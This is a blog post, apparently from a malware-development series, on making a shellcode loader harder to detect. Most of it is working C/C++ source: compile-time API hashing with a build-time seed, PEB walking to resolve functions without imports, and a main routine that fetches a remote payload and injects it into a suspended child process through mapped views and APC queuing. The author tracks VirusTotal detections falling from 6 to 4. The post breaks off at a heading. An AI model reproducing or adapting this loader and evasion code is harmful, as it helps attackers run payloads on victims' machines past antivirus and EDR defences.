







Stripping the Binary Clean: Hiding the malware indicators
2026-04-30
In my last attempt to build a loader while I did land to no detections over free-tier elastic defend EDR capabilities there were a lot of nuances. The ‘release’ build was detected and literally had the PDB path with the word loader embedded into the binary. Professional hacker momemnts. The following is my attempt of stripping the binary clean of possible indicators of malicious behaviour leveraging IAT hiding through compile-time API obfuscation and creating a legitimate utility identity through versioning and manifest with some further cleansing of the project you’ll encounter as you read.
What Indicators?
The virustotal scan for the last build of the loader demonstrated that disassembling/decompilation capabilities through code insights provided following insights into the binary:

As I was sticking to the pseudo-identity of network utility tool called NetUtil thus my first targets where WinAPIs being used for remote mapping injection and APC injection. The WinInet functions, being used to fetch the payload, were not an immediate issue for me.
API Hashing for IAT Hiding
The well-known-personalities-in-the-malware-world functions of CreateProcess, WriteProcessMemory, CreateFileMapping, MapViewOfFile, MapViewOfFile2, QueuerUserAPC, DebugActiveProcessStop where present in the import address table of the binary which would’ve provided easy indicators to any scanner.
To resolve these functions through DLL module walking at runtime; levaraging a unique hash value for each of the functions mentioned was my goto approach to hide them from IAT.
Hash Functions
I wanted a compile-time hashing capability that would help me to deduce a random seed value for every build that is compiled thus eliminating the constant hashes across builds (another possible indicator in the longer run).
The constexpr expressions in C++ do allow the flexibility of compile-time evaluation of statements but came at the cost of adding C++ to until-now a C project.
Furthermore, the constexpr expressions require no involvement of functions that are to be resolved from a shared module. The entire expression should exist entirely and depend on functions in the existing code-base. This somewhat limited the available hash function options to me.
I browsed through the VX-API repository and landed on HashStringFowlerNollVoVariant1a.
ULONG HashStringFowlerNollVoVariant1aA(_In_ LPCSTR String)
{
ULONG Hash = 0x811c9dc5;
while (*String)
{
Hash ^= (UCHAR)*String++;
Hash *= 0x01000193;
}
return Hash;
}
I added a little modification to make the function case-insensitive as there might be some difference between how I write the module name compared to the module name populated by the loader at runtime.
constexpr ULONG HashStringFowlerNollVoVariant1aA(IN LPCSTR String)
{
ULONG Hash = g_InitHash;
while (*String)
{
UCHAR c = *String++;
if (c >= 'A' && c <= 'Z')
Hash ^= c + 0x20;
else
Hash ^= c;
Hash *= 0x01000193;
}
return Hash;
}
Notice the constexpr prefix for compile time evaluation. The wide-character version HashStringFowlerNollVoVariant1aW worked similarly. Both the implementations start with an initial hash g_InitHash value. This is a global variable containing the random-seed I described the need for. It is derived from the time of compilation as follows:
constexpr ULONG RandomCompileTimeSeed(void) {
return
(__TIME__[7] - '0') +
(__TIME__[6] - '0') * 10 +
(__TIME__[4] - '0') * 60 +
(__TIME__[3] - '0') * 600 +
(__TIME__[1] - '0') * 3600 +
(__TIME__[0] - '0') * 36000;
}
constexpr ULONG g_InitHash = RandomCompileTimeSeed();
Now that I look at it, I should’ve added date of compilation too, well there’s always next time.
I also defined some helper macros to leverage these hash functions both at the compile-time and during execution at runtime.
// Compile-time macros to define the hash values for WinAPI functions
// It defines variables at compile time with the format:
// constexpr auto WinApiFuncName_FnvvA/W = HashValue
#define CTIME_HFOWLERA(API) constexpr auto API##_FnvvA = HashStringFowlerNollVoVariant1aA((LPCSTR) #API);
#define CTIME_HFOWLERW(API) constexpr auto API##_FnvvW = HashStringFowlerNollVoVariant1aW((LPCWSTR) L#API);
// Runtime macros to call respective hash function during WinAPI resolution
#define RTIME_HFOWLERA(API) HashStringFowlerNollVoVariant1aA((LPCSTR)API)
#define RTIME_HFOWLERW(API) HashStringFowlerNollVoVariant1aW((LPCWSTR)API)
The CTIME_HFOWLERA macros create variables at compile time with _FnnvA suffix or _FnvvW suffix onto the function name for which the hash function was called.
The runtime-resolution logic
A basic approach to retrieve function address is to define the function signature as a type and populate a pointer to that type using GetModuleHandle and GetProcAddress calls.
HANDLE moduleHandle = GetModuleHandle("moduleName");
funcType funcPtr = GetProcAddress(moduleHandle, "functionName");
Thus, I needed custom implmentations that would work as follows
HANDLE moduleHandle = GetModuleHandleCustom(moduleNameHash);
functype funcPtr = GetProcAddressCustom(moduleHandle, functionNameHash);
GetModuleHandleCustom
I defined a structure to store an internal representation of module.
// My representation of a Module; helps to cache some attributes
typedef struct {
HMODULE ModuleHandle; // DllBase
ULONG ModuleHash; // FowlerNollVoVariant1a hash of module name
DWORD NumberOfFunctions; // Count of the functions in the module
PDWORD FunctionNameArray; // Array of function names
PDWORD FunctionAddressArray; // Array of function addresses
PWORD FunctionOrdinalArray; // Array of function indexes
} WINAPI_MODULE, * PWINAPI_MODULE;
The caller function populates a structure of WINAPI_MODULE with module name’s hash in ModuleHash for each module to be resolved. Next, pointer to this structure is passed onto the following GetModuleHandleCustom function which:
- fetches the process environment block for the currently running process
- parses the
PEB_LDR_DATAfor modules loaded into the process. - compares each module’s base name’s hash to the provided hash.
- if the check succeeds, populates the
ModuleHandlewith the base address of the module.
BOOL GetModuleHandleCustom(
IN PWINAPI_MODULE pWinApiMod
) {
if (!pWinApiMod || pWinApiMod->ModuleHash == 0)
return FALSE;
#ifdef _WIN64
PPEB pPeb = (PPEB)(__readgsqword(0x60));
#elif _WIN32
PPEB pPeb = (PPEB)(__readfsdword(0x30));
#endif // _WIN64
PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
PLIST_ENTRY pDteHead = &(pLdr->InMemoryOrderModuleList);
PLIST_ENTRY pDteCurrent = pDteHead->Flink;
do {
PLDR_DATA_TABLE_ENTRY pDte = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pDteCurrent- offsetof(LDR_DATA_TABLE_ENTRY, InMemoryOrderModuleList));
if (pDte->BaseDllName.Length != 0) {
if (RTIME_HFOWLERW(pDte->BaseDllName.Buffer) == pWinApiMod->ModuleHash) {
pWinApiMod->ModuleHandle = (HMODULE)pDte->DllBase;
return TRUE;
}
}
pDteCurrent = pDteCurrent->Flink;
} while (pDteCurrent != pDteHead);
return FALSE;
}
GetProcAddressCustom
The GetProcAddressCustom implementation expects pointer to structure populated by GetModuleHandleCustom and hash of the function name. Next, it:
- checks if the module was already parsed and required arrays have been resolved.
- if not, (in case of first call for a module), it parses the DLL PE image and sets the
NumberOfFunctions,FunctionNameArray,FunctionAddressArray,FunctionOrdinalArrayvalues that are to be used directy in subsequent calls. - it iterates over each function name and compares their hash to the provided hash value.
- if the check succeeds, it fetches and returns the address for the target function within the module.
FARPROC GetProcAddressCustom(
IN OUT PWINAPI_MODULE pWinApiMod,
IN ULONG uApiHash
) {
PBYTE pBase = (PBYTE)(pWinApiMod->ModuleHandle);
if (pWinApiMod->NumberOfFunctions == 0) {
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
PIMAGE_EXPORT_DIRECTORY pImgExpDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
pWinApiMod->NumberOfFunctions = pImgExpDir->NumberOfFunctions;
pWinApiMod->FunctionNameArray = (PDWORD)(pBase + pImgExpDir->AddressOfNames);
pWinApiMod->FunctionAddressArray = (PDWORD)(pBase + pImgExpDir->AddressOfFunctions);
pWinApiMod->FunctionOrdinalArray = (PWORD )(pBase + pImgExpDir->AddressOfNameOrdinals);
}
for (DWORD i = 0; i < pWinApiMod->NumberOfFunctions; i++) {
CHAR* pFunctionName = (CHAR*)(pBase + pWinApiMod->FunctionNameArray[i]);
if (RTIME_HFOWLERA(pFunctionName) == uApiHash) {
PVOID pFunctionAddr = (PVOID)(pBase + pWinApiMod->FunctionAddressArray[pWinApiMod->FunctionOrdinalArray[i]]);
return (FARPROC)pFunctionAddr;
}
}
return NULL;
}
Sticking the pieces together
The program uses CTIME_HFOWLERW macros to define WinAPI function hashes at compile time. I also calculated hashes for the module names, to remove hardcoded strings with module names and leverage custom implementation of GetModuleHandle.
// define hashes for the WinAPI functions at compile-time
CTIME_HFOWLERW(CreateProcessW);
CTIME_HFOWLERW(WriteProcessMemory);
CTIME_HFOWLERW(CreateFileMappingW);
CTIME_HFOWLERW(MapViewOfFile);
CTIME_HFOWLERW(MapViewOfFileNuma2);
CTIME_HFOWLERW(QueueUserAPC);
CTIME_HFOWLERW(DebugActiveProcessStop);
// define hash for kernel32.dll and kernelbase.dll at compile-time
constexpr ULONG KERNEL32_DLL_FnvvW = HashStringFowlerNollVoVariant1aW(L"KERNEL32.DLL");
constexpr ULONG KERNELBASE_DLL_FnnvW = HashStringFowlerNollVoVariant1aW(L"KERNELBASE.DLL");
Next, I created a structure - H_API, to hold the pointers-of-interest i.e. function pointers to each function that would be resolved through their hash.
And it was at this moment I realised that MapViewOfFile2 is a wrapper over MapViewOfFileNuma2. NUMA or Non-Uniform Memory Access is a fancy term to explain that in multi-processor system accessing local memory memory of a CPU is faster than accessing memory of another CPU - thus the non-uniformity. Numa node specifies the memory where the mapped section would reside. For our intent and purposes we’d hardcode it to NUMA_NO_PREFERRED_NODE.
// My representation of collection of all hashed functions
typedef struct {
fnCreateProcessW pCreateProcessW; // from kernel32.dll
fnWriteProcessMemory pWriteProcessMemory; // from kernel32.dll
fnCreateFileMappingW pCreateFileMappingW; // from kernel32.dll
fnMapViewOfFile pMapViewOfFile; // from kernel32.dll
fnQueueUserAPC pQueueUserAPC; // from kernel32.dll
fnDebugActiveProcessStop pDebugActiveProcessStop; // from kernel32.dll
fnMapViewOfFileNuma2 pMapViewOfFileNuma2; // from kernelbase.dll
} H_API, * PH_API;
Each function type definition was sourced from microsoft documentation.
//\
https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw
typedef BOOL(WINAPI* fnCreateProcessW)(
IN OPTIONAL LPCWSTR lpApplicationName,
IN OUT OPTIONAL LPWSTR lpCommandLine,
IN OPTIONAL LPSECURITY_ATTRIBUTES lpProcessAttributes,
IN OPTIONAL LPSECURITY_ATTRIBUTES lpThreadAttributes,
IN BOOL bInheritHandles,
IN DWORD dwCreationFlags,
IN OPTIONAL LPVOID lpEnvironment,
IN OPTIONAL LPCWSTR lpCurrentDirectory,
IN LPSTARTUPINFOW lpStartupInfo,
OUT LPPROCESS_INFORMATION lpProcessInformation
);
//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory
typedef BOOL(WINAPI* fnWriteProcessMemory)(
IN HANDLE hProcess,
IN LPVOID lpBaseAddress,
IN LPCVOID lpBuffer,
IN SIZE_T nSize,
OUT SIZE_T* lpNumberOfBytesWritten
);
//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-createfilemappingw
typedef HANDLE(WINAPI* fnCreateFileMappingW)(
IN HANDLE hFile,
IN OPTIONAL LPSECURITY_ATTRIBUTES lpFileMappingAttributes,
IN DWORD flProtect,
IN DWORD dwMaximumSizeHigh,
IN DWORD dwMaximumSizeLow,
IN OPTIONAL LPCWSTR lpName
);
//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile
typedef LPVOID(WINAPI* fnMapViewOfFile)(
IN HANDLE hFileMappingObject,
IN DWORD dwDesiredAccess,
IN DWORD dwFileOffsetHigh,
IN DWORD dwFileOffsetLow,
IN SIZE_T dwNumberOfBytesToMap
);
//\
https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffilenuma2
typedef PVOID(WINAPI* fnMapViewOfFileNuma2)(
IN HANDLE FileMappingHandle,
IN HANDLE ProcessHandle,
IN ULONG64 Offset,
IN OPTIONAL PVOID BaseAddress,
IN SIZE_T ViewSize,
IN ULONG AllocationType,
IN ULONG PageProtection,
IN ULONG PreferredNode
);
//\
https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc
typedef DWORD(WINAPI* fnQueueUserAPC)(
IN PAPCFUNC pfnAPC,
IN HANDLE hThread,
IN ULONG_PTR dwData
);
//\
https://learn.microsoft.com/en-us/windows/win32/api/debugapi/nf-debugapi-debugactiveprocessstop
typedef BOOL(WINAPI* fnDebugActiveProcessStop)(
IN DWORD dwProcessId
);
I defined a function called InitApis that populates a pointer value to the H_API structure containing function addresses resolved through custom procedures defined above.
BOOL InitApis(
OUT PH_API* ppHashedApis
) {
DEBUG_PRINT("g_InitHash: %d\n", g_InitHash);
PWINAPI_MODULE pKernel32 = (PWINAPI_MODULE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WINAPI_MODULE));
PWINAPI_MODULE pKernelbase = (PWINAPI_MODULE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WINAPI_MODULE));
PH_API pHashedApis = (PH_API)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(H_API));
if (!pKernel32 || !pKernelbase || !pHashedApis) {
DEBUG_PRINT("Failed to allocate memory in InitApis.\n");
return FALSE;
}
pKernel32->ModuleHash = KERNEL32_DLL_FnvvW;
GetModuleHandleCustom(pKernel32); // populates pKernel32->ModuleHandle
if (!pKernel32->ModuleHandle) {
DEBUG_PRINT("Failed to retrive kernel32.dll handle.\n");
return FALSE;
}
pKernelbase->ModuleHash = KERNELBASE_DLL_FnnvW;
GetModuleHandleCustom(pKernelbase); // populates pKernelbase->ModuleHandle
if (!pKernelbase->ModuleHandle) {
DEBUG_PRINT("Failed to retrive kernelbase.dll handle\n");
return FALSE;
}
pHashedApis->pCreateProcessW = (fnCreateProcessW)GetProcAddressCustom(pKernel32, CreateProcessW_FnvvW);
if (!pHashedApis->pCreateProcessW) {
DEBUG_PRINT("Failed to resolve CreateProcessW.\n");
return FALSE;
}
DEBUG_PRINT("\"CreateProcessW\" address: 0x%p\n", pHashedApis->pCreateProcessW);
pHashedApis->pWriteProcessMemory = (fnWriteProcessMemory)GetProcAddressCustom(pKernel32, WriteProcessMemory_FnvvW);
if (!pHashedApis->pWriteProcessMemory) {
DEBUG_PRINT("Failed to resolve WriteProcessMemory.\n");
return FALSE;
}
DEBUG_PRINT("\"WriteProcessMemory\" address: 0x%p\n", pHashedApis->pWriteProcessMemory);
pHashedApis->pCreateFileMappingW = (fnCreateFileMappingW)GetProcAddressCustom(pKernel32, CreateFileMappingW_FnvvW);
if (!pHashedApis->pCreateFileMappingW) {
DEBUG_PRINT("Failed to resolve CreateFileMappingW.\n");
return FALSE;
}
DEBUG_PRINT("\"CreateFileMappingW\" address: 0x%p\n", pHashedApis->pCreateFileMappingW);
pHashedApis->pMapViewOfFile = (fnMapViewOfFile)GetProcAddressCustom(pKernel32, MapViewOfFile_FnvvW);
if (!pHashedApis->pMapViewOfFile) {
DEBUG_PRINT("Failed to resolve MapViewOfFile.\n");
return FALSE;
}
DEBUG_PRINT("\"MapViewOfFile\" address: 0x%p\n", pHashedApis->pMapViewOfFile);
pHashedApis->pQueueUserAPC = (fnQueueUserAPC)GetProcAddressCustom(pKernel32, QueueUserAPC_FnvvW);
if (!pHashedApis->pQueueUserAPC) {
DEBUG_PRINT("Failed to resolve QueueUserAPC.\n");
return FALSE;
}
DEBUG_PRINT("\"QueueUserAPC\" address: 0x%p\n", pHashedApis->pQueueUserAPC);
pHashedApis->pDebugActiveProcessStop = (fnDebugActiveProcessStop)GetProcAddressCustom(pKernel32, DebugActiveProcessStop_FnvvW);
if (!pHashedApis->pDebugActiveProcessStop) {
DEBUG_PRINT("Failed to resolve DebugActiveProcessStop.\n");
return FALSE;
}
DEBUG_PRINT("\"DebugActiveProcessStop\" address: 0x%p\n", pHashedApis->pDebugActiveProcessStop);
pHashedApis->pMapViewOfFileNuma2 = (fnMapViewOfFileNuma2)GetProcAddressCustom(pKernelbase, MapViewOfFileNuma2_FnvvW);
if (!pHashedApis->pMapViewOfFileNuma2) {
DEBUG_PRINT("Failed to resolve MapViewOfFileNuma2.\n");
return FALSE;
}
DEBUG_PRINT("\"MapViewOfFileNuma2\" address: 0x%p\n", pHashedApis->pMapViewOfFileNuma2);
*ppHashedApis = pHashedApis;
return TRUE;
}
The DEBUG_PRINT macro comes from the codebase described in my previous blog.
The DEBUG_PRINT macro helps me to strip the debug printf statements and hardcoded debug strings at compilation. It controlled by LOG_DEBUG_MSG, when defined the DEBUG_PRINT statements are essentially printf calls specifying file and line number along with the message passed. When LOG_DEBUG_MSG is not defined, DEBUG_PRINT turns to be just a void statement.
#define LOG_DEBUG_MSG
#ifdef LOG_DEBUG_MSG
#define DEBUG_PRINT(fmt, ...) \
printf("[DEBUG] (%s:%d) " fmt "\n", __FILE__, __LINE__, ##__VA_ARGS__)
#else
#define DEBUG_PRINT(fmt, ...) ((void)0)
#endif // !LOG_DEBUG_MSG
The import problem
Remember the __TIME__ in compile-time random seed generation? It came to bite me as for every source file where the hashing capabilities were added, it defined a new g_InitHash value. To tackle this:
-
I limited the import of hash function definitions only within the resolution logic, thus the compile-time hashes are defined within the scope of source-code concerned with hash-based resolution.
-
The
InitApisfunction acts as an entry point into the function resolution flow. -
The
mainfunction is made aware ofInitApisthrough following statment (as header with function declaration as it would cascade into hash functions being re-evaluated formain).extern BOOL InitApis( OUT PH_API* ppHashedApi );
Thus the main function:
- Leverages
InitApisto initialize the functions through their hashes. - Call the helper functions to
- fetch the payload
- create a child process
- inject mapping into the child process
- schedule call to payload through APC injection
- Remove the debugger to execute the APC call.
#include "common.h"
extern BOOL InitApis(
OUT PH_API* ppHashedApi
);
int wmain(int argc, wchar_t** argv) {
PBYTE pBlob = NULL,
pBlobCopy = NULL;
SIZE_T sBlobSize = 0;
HANDLE hProcess = NULL,
hThread = NULL;
DWORD dwProcessID = 0;
PH_API pHashedApis = { 0 };
InitApis(&pHashedApis);
FetchBlob(argv[1], &pBlob, &sBlobSize);
CreateSuspendedProcess(pHashedApis, argv[2], &hProcess, &hThread, &dwProcessID);
CopyBlob(pHashedApis, hProcess, pBlob, sBlobSize, &pBlobCopy);
ScheduleRun(pHashedApis, hThread, pBlobCopy);
pHashedApis->pDebugActiveProcessStop(dwProcessID);
#ifdef LOG_DEBUG_MSG
system("PAUSE");
#endif // !LOG_DEBUG_MSG
return 0;
}
Notice that helper functions now receive the hash-resolved-function-address structure to leverage the WinAPIs through their calculated addresses. Same occurs for removing the debugger, where DebugActiveProcessStop is being called through its address stored in the HashedApis structure.
pHashedApis->pDebugActiveProcessStop(dwProcessID);
Benchmarks
All of this kung-fu resulted in removing the mentioned infamous functions from the binary IAT. The left pane shows the IAT of loader version from last blog-post, the right pane shows the IAT with function hashing.

A submission on virustotal showed that the detection score dropped from 6 to 5.

While a decrement of a single unit was appreciated, it wasn’t much. As the engine was already in place, I hashed the WinInet functions too. The updated InitApis function included
BOOL InitApis(
OUT PH_API* ppHashedApis
) {
// ...
PWINAPI_MODULE pWininet = (PWINAPI_MODULE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WINAPI_MODULE));
if (!pKernel32 || !pKernelbase || !pWininet || !pHashedApis) {
DEBUG_PRINT("Failed to allocate memory in InitApis.\n");
return FALSE;
}
// ..,
if (!pKernelbase->ModuleHandle) {
DEBUG_PRINT("Failed to retrive kernelbase.dll handle\n");
return FALSE;
}
pWininet->ModuleHandle = LoadLibraryW(L"Wininet.dll");
// ...
pHashedApis->pInternetOpenW = (fnInternetOpenW)GetProcAddressCustom(pWininet, InternetOpenW_FnvvW);
if (!pHashedApis->pInternetOpenW) {
DEBUG_PRINT("Failed to resolve InternetOpenW.\n");
return FALSE;
}
DEBUG_PRINT("\"InternetOpenW\" address: 0x%p\n", pHashedApis->pInternetOpenW);
pHashedApis->pInternetOpenUrlW = (fnInternetOpenUrlW)GetProcAddressCustom(pWininet, InternetOpenUrlW_FnvvW);
if (!pHashedApis->pInternetOpenUrlW) {
DEBUG_PRINT("Failed to resolve InternetOpenUrlW.\n");
return FALSE;
}
DEBUG_PRINT("\"InternetOpenUrlW\" address: 0x%p\n", pHashedApis->pInternetOpenUrlW);
pHashedApis->pInternetSetOptionW = (fnInternetSetOptionW)GetProcAddressCustom(pWininet, InternetSetOptionW_FnvvW);
if (!pHashedApis->pInternetSetOptionW) {
DEBUG_PRINT("Failed to resolve InternetSetOptionW.\n");
return FALSE;
}
DEBUG_PRINT("\"InternetSetOptionW\" address: 0x%p\n", pHashedApis->pInternetSetOptionW);
pHashedApis->pInternetReadFile = (fnInternetReadFile)GetProcAddressCustom(pWininet, InternetReadFile_FnvvW);
if (!pHashedApis->pInternetReadFile) {
DEBUG_PRINT("Failed to resolve InternetReadFile.\n");
return FALSE;
}
DEBUG_PRINT("\"InternetReadFile\" address: 0x%p\n", pHashedApis->pInternetReadFile);
pHashedApis->pInternetCloseHandle = (fnInternetCloseHandle)GetProcAddressCustom(pWininet, InternetCloseHandle_FnvvW);
if (!pHashedApis->pInternetCloseHandle) {
DEBUG_PRINT("Failed to resolve InternetCloseHandle.\n");
return FALSE;
}
DEBUG_PRINT("\"InternetCloseHandle\" address: 0x%p\n", pHashedApis->pInternetCloseHandle);
*ppHashedApis = pHashedApis;
return TRUE;
}
It removed the Wininet.dll file and the functions being imported from the IAT but at the cost of hardcoded Wininet.dll string in the source code as I had to load the library manually through LoadLibraryW for function resolution through hashes.

This further decreased the the detection rate to 4.
Binary attributes
Debug Information
